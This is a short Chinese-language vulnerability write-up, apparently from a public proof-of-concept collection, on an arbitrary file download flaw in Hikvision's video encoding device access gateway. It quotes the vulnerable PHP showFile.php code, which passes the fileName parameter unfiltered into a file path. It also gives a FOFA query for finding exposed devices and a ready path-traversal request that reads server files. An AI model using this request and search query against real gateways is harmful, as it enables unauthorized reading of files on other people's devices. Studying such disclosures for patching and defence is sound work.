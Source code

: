 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## FOFA

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面

![image-20220519174129368](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191743965.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

![image-20220519174337483](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191743535.png)